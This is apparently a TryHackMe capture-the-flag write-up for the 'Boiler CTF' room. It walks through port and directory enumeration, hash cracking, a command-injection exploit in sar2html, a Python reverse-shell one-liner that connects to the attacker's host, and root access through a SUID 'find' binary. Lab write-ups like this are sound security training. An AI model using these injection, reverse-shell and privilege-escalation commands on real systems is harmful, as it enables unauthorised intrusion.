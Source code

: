 # Boiler CTF [TryHackMe](https://tryhackme.com/room/boilerctf2)

---

![](./.assets/logo.jpeg)

---

## Index

- [Enumeration](#enumeration)
- [Finding vunerabilities](#finding-vunerabilities)
- [Priviledge Escalation](#priviledge-escalation)
- [Final Thoughts](#final-thoughts)

---

```bash
export IP=10.10.190.6 # I went through so many lol
```

### Enumeration

```bash
nmap -sC -sV -v -A $IP -oN nmap/initial.nmap
```

`Initial`
```
# Nmap 7.91 scan initiated Wed Jul 21 15:17:41 2021 as: nmap -vvv -p 21,80,10000,55007 -sC -A -sV -v -oN nmap/initial.nmap 10.10.190.6
Nmap scan report for 10.10.190.6
Host is up, received syn-ack (0.18s latency).
Scanned at 2021-07-21 15:17:41 +04 for 103s

PORT      STATE SERVICE REASON  VERSION
21/tcp    open  ftp     syn-ack vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:'<<IP>>'
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp    open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Apache2 Ubuntu Default Page: It works
10000/tcp open  http    syn-ack MiniServ 1.930 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 9E85B5D6A09BB478578C67A5B7452FCB
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
55007/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e3:ab:e1:39:2d:95:eb:13:55:16:d6:ce:8d:f9:11:e5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8bsvFyC4EXgZIlLR/7o9EHosUTTGJKIdjtMUyYrhUpJiEdUahT64rItJMCyO47iZTR5wkQx2H8HThHT6iQ5GlMzLGWFSTL1ttIulcg7uyXzWhJMiG/0W4HNIR44DlO8zBvysLRkBSCUEdD95kLABPKxIgCnYqfS3D73NJI6T2qWrbCTaIG5QAS5yAyPERXXz3ofHRRiCr3fYHpVopUbMTWZZDjR3DKv7IDsOCbMKSwmmgdfxDhFIBRtCkdiUdGJwP/g0uEUtHbSYsNZbc1s1a5EpaxvlESKPBainlPlRkqXdIiYuLvzsf2J0ajniPUkvJ2JbC8qm7AaDItepXLoDt
|   256 ae:de:f2:bb:b7:8a:00:70:20:74:56:76:25:c0:df:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLIDkrDNUoTTfKoucY3J3eXFICcitdce9/EOdMn8/7ZrUkM23RMsmFncOVJTkLOxOB+LwOEavTWG/pqxKLpk7oc=
|   256 25:25:83:f2:a7:75:8a:a0:46:b2:12:70:04:68:5c:cb (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPsAMyp7Cf1qf50P6K9P2n30r4MVz09NnjX7LvcKgG2p
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul 21 15:19:24 2021 -- 1 IP address (1 host up) scanned in 103.08 seconds
```

nmap indicates that there is some sort of `robots.txt` file we can look at.

```txt
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

99b0660cd95adea327c54182baa51584
```

Before I access those directories, I decide to crack that cipher.
I first transform it from decimal to ASCII and from b64 decode it. Initially I thought it was hex but the hex to ASCII produced seemingly rubbish. However, the hash identifier seems to pick it up as a hash.
I use `hashcat` to crack the hash.

```bash
hashcat -m 0 -O '<<HASH>>' ~/wordlists/passwords/rockyou.txt --show
```

It is quickly cracked by hashcat and it seems to be a rabbit hole...
We can now move onto the directories listed in robots.txt

None of them worked. They were all a rabbit hole.

So we should move onto enumerating the website with `gobuster`

```bash
gobuster dir -t 32 -u $IP -w ~/wordlists/website/big.txt
```

```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/joomla (Status: 301)
/manual (Status: 301)
/robots.txt (Status: 200)
/server-status (Status: 403)
```

We have a CMS on this site: Joomla. Time to enumerate it!

```bash
gobuster dir -t 64 -u http://$IP/joomla -w ~/wordlists/website/big.txt
```

```txt
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/_archive (Status: 301)
/_database (Status: 301)
/_files (Status: 301)
/_test (Status: 301)
/administrator (Status: 301)
/bin (Status: 301)
/build (Status: 301)
/cache (Status: 301)
/cli (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/installation (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/templates (Status: 301)
/tests (Status: 301)
/tmp (Status: 301)
/~www (Status: 301)
```

The `_{filenames}` look interesting to me.

---

### Finding vunerabilities

Opening each one reveals...a rabbit hole! You'll find ciphers in them (which I decoded, they're relatively simple) but they all lead to _**rabbit holes**_. I do like them though, adds character to the box.

Well, all of them except one leads to a rabbit hole: `_test` is definitely something we can exploit because doing a quick google search on `sar2html` there are a variety of exploits which we can exploit.

I quickly find a promising python exploit (saved in `exploits/exploit.py` if you want to have a look at it) but rather than using that:

```python
output = sess.get(f"{url}/index.php?plot=;{cmd}")
try:
    out = re.findall("<option value=(.*?)>", output.text)
except:
    print ("Error!!")
```

All it is really doing is going to `index.php` and using `plot=;{cmd}` for the exploit.
(Also note, that the shebang line is incorrect - it should come first.)

Instead of that, I will use `curl`

```bash
curl "http://$IP/joomla/_test/index.php?plot=;whoami" | html2text
'% Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                               Dload  Upload   Total   Spent    Left  Speed
0     0    0     0    0     0      0      0 --:--:-- -- 59  5805   59  3478    0     0   7868      0 --:--:-- --100  5805  100  5805    0     0  13133      0 --:--:-- --:--:-- --:--:-- 13103


                                 sar2html
                           (Donate if you like!)

  * New
  * ;whoami
        o HP-UX
        o Linux
        o SunOS

[One of: Select Host/HPUX/Linux/SunOS/www-data]
[One of: Select Host First]
[One of: Select Start Date First]'
```

Note, right there at the bottom, we can see the result of our command: `www-data`.

I craft up a simple python reverse-shell payload:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<IP>>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

And add that to my curl request:

```bash
curl "http://$IP/joomla/_test/index.php?plot=;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('<<IP>>',9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"
```
And we are in!

---

### Priviledge Escalation

This was probably the easiest section of them all.
The directory in which we spawn in has a file: `log.txt` which contains a password.

Navigating to the home directory, we notice two users: `stoner` and `basterd`.
I find that we can `su basterd` with the password we found earlier and there's a script `backup.sh` we can read which contains the plaintext password of the _other_ user `stoner`.
`su stoner` and we now have the user flag!

Moving onto gaining root access, I grab linpeas and notice two major things: first we are part of the `lxd` group which can be exploited or even easier: the `find` SUID bit is set.

```bash
find . -exec /bin/bash -ip \;
```

And we are now root! And can grab the root flag!

---

### Final Thoughts

Fun room which tests your enumeration skills well. I had a few issues with the openvpn with this room (resolved by restarting the box now and again) but the room has a lot of merit (and rabbit holes). Would recommend!

---

![](./.assets/rabbit_holes.jpeg)
